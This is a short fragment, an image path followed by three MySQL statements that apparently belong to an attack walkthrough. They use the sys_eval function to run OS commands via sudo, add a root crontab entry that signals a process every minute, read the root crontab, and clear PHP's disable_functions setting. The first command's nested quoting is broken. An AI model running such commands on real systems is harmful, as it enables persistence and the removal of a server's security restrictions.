 



```
SELECT sys_eval('sudo sed -i 'N;7i*    *    *    *    *    kill -USR2 121' /var/spool/cron/crontabs/root');
SELECT sys_eval('sudo cat  /var/spool/cron/crontabs/root');
SELECT sys_eval("sudo sed -i 's/disable_functions = var_du.*/disable_functions = /g' /usr/local/etc/php/php.ini");
```

